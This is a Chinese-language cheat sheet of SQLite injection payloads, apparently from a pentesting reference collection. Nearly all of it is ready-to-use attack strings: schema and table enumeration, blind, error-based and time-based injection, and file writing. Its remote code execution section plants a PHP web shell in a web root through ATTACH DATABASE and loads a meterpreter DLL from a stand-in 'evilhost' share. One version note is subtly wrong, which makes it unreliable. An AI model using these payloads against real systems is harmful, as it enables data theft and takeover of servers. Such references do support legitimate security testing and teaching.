# SQLite 注入

> SQLite 注入是一种安全漏洞，当攻击者能够插入或“注入”恶意的 SQL 代码到由 SQLite 数据库执行的 SQL 查询中时就会发生这种情况。这种漏洞通常出现在用户输入没有经过适当清理或参数化就集成到 SQL 语句中时，允许攻击者操纵查询逻辑。此类注入可能导致未经授权的数据访问、数据篡改以及其他严重的安全问题。

## 概述

* [SQLite 注释](#sqlite-注释)
* [SQLite 枚举](#sqlite-枚举)
* [SQLite 字符串](#sqlite-字符串)
    * [SQLite 字符串方法论](#sqlite-字符串方法论)
* [SQLite 盲注](#sqlite-盲注)
    * [SQLite 盲注方法论](#sqlite-盲注方法论)
    * [SQLite 带子串等价的盲注](#sqlite-带子串等价的盲注)
* [SQLite 基于错误的注入](#sqlite-基于错误的注入)
* [SQLite 基于时间的注入](#sqlite-基于时间的注入)
* [SQLite 远程代码执行](#sqlite-远程代码执行)
    * [附加数据库](#附加数据库)
    * [加载扩展](#加载扩展)
* [SQLite 文件操作](#sqlite-文件操作)
    * [SQLite 读取文件](#sqlite-读取文件)
    * [SQLite 写入文件](#sqlite-写入文件)
* [参考文献](#参考文献)

## SQLite 注释

| 描述               | 注释           |
|--------------------|----------------|
| 单行注释           | `--`           |
| 多行注释           | `/**/`         |

## SQLite 枚举

| 描述         | SQL 查询                 |
|--------------|--------------------------|
| 数据库版本   | `select sqlite_version();` |

## SQLite 字符串

### SQLite 字符串方法论

| 描述                     | SQL 查询                                             |
|--------------------------|-----------------------------------------------------|
| 提取数据库结构           | `SELECT sql FROM sqlite_schema`                  |
| 提取数据库结构 (sqlite_version > 3.33.0) | `SELECT sql FROM sqlite_master`                  |
| 提取表名                 | `SELECT tbl_name FROM sqlite_master WHERE type='table'` |
| 提取表名                 | `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` |
| 提取列名                 | `SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'` |
| 提取列名                 | `SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');` |
| 提取列名                 | `SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='<TABLE_NAME>'` |
| 提取列名                 | `SELECT name FROM PRAGMA_TABLE_INFO('<TABLE_NAME>')` |

## SQLite 盲注

### SQLite 盲注方法论

| 描述                     | SQL 查询                                             |
|--------------------------|-----------------------------------------------------|
| 计算表的数量             | `AND (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' ) < number_of_table` |
| 枚举表名                 | `AND (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0)=table_name_length_number` |
| 提取信息                 | `AND (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) > HEX('some_char')` |
| 提取信息 (按顺序)        | `CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = HEX('some_char') THEN <order_element_1> ELSE <order_element_2> END` |

### SQLite 带子串等价的盲注

| 函数      | 示例                                   |
|-----------|----------------------------------------|
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)` |
| `SUBSTR`   | `SUBSTR('foobar', <START>, <LENGTH>)`    |

## SQLite 基于错误的注入

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## SQLite 基于时间的注入

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

## SQLite 远程代码执行

### 附加数据库

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### 加载扩展

:warning: 默认情况下此组件是禁用的。

```sql
UNION SELECT 1,load_extension('\\evilhost\\evilshare\\meterpreter.dll','DllMain');--
```

## SQLite 文件操作

### SQLite 读取文件

SQLite 默认不支持文件 I/O 操作。

### SQLite 写入文件

```sql
SELECT writefile('/path/to/file', column_name) FROM table_name
```

## 参考文献

* [Injecting SQLite database based application - Manish Kishan Tanwar - February 14, 2017](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
* [SQLite Error Based Injection for Enumeration - Rio Asmara Suryadi - February 6, 2021](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
* [SQLite3 Injection Cheat sheet - Nickosaurus Hax - May 31, 2012](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)